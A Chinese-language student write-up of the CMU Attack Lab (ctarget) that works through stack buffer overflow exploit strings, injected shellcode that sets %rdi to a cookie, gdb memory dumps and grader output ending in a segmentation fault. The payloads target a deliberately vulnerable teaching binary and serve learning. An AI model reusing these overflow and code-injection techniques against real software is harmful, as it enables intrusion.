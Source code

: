 ```text
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
0a
```

前面 40 字节无所谓，用来填充缓冲区，后面 8 字节构造了到 touch1 函数的地址，最后给个 0a 作为换行符结束输入

### Phase 2

这次我们需要让 getbuf 函数不仅跳转到 touch2 函数，还携带一个参数

我们可能要考虑，先篡改 getbuf 栈顶上面的返回值地址，让其先指向我们自己的代码，然后我们去修改 `%rdi`，然后再跳到 touch2 函数

一个困难之处在于可能栈地址是随机的，好在经过测试，`ctarget` 栈地址并没有随机。我们使用 gdb 在 getbuf 出打断点，并输出 `%rsp` 的值，为 `0x5561dca0`。一个注意地方是我们需要在 gdb 中先 `set args -q` 使得程序不连接评分服务器

任务指导书中特别提示，我们最好不要使用 `jmp` 和 `call` 来进行跳转，因为这两个指令的编码可能会比较困难，建议我们使用 `ret` 指令，那我们可能需要考虑继续篡改 getbuf 栈顶再上面 8 个字节的地方（因为第一次从 getbuf 跳转后 `%rsp` 向上移动了 8 个字节）

touch2 的地址为 `00000000004017ec`

将指令变为二进制可以直接使用 gcc，如 `gcc -c example.s` 然后再 `objdump -d example.o > example.d`

先构造自己的代码：

```assembly
    movq $0x59b997fa, %rdi
    ret
```

编译得到的二进制为

```text
48 c7 c7 fa 97 b9 59 c3
```

然后我们考虑把这块代码放到缓冲区的位置，构造：

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 48 c7 c7 fa 97 b9 59 c3
98 dc 61 55 00 00 00 00
ec 17 40 00 00 00 00 00
0a
```

注意缓冲区最后的地址是 `0x5561dca0`，但是我们不能直接从这个地址开始执行，应该从 `0x5561dc98` 开始：

```
(gdb) x/20xb 0x5561dc98
0x5561dc98:     0x48    0xc7    0xc7    0xfa    0x97    0xb9    0x59    0xc3
0x5561dca0:     0xa0    0xdc    0x61    0x55    0x00    0x00    0x00    0x00
0x5561dca8:     0xec    0x17    0x40    0x00
```

提交后出现了段错误：

```
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
Ouch!: You caused a segmentation fault!
Better luck next time
FAIL: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:FAIL:0xffffffff:ctarget:0:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 48 C7 C7 FA 97 B9 59 C3 98 DC 61 55 00 00 00 00 EC 17 40 00 00 00 00 00
```
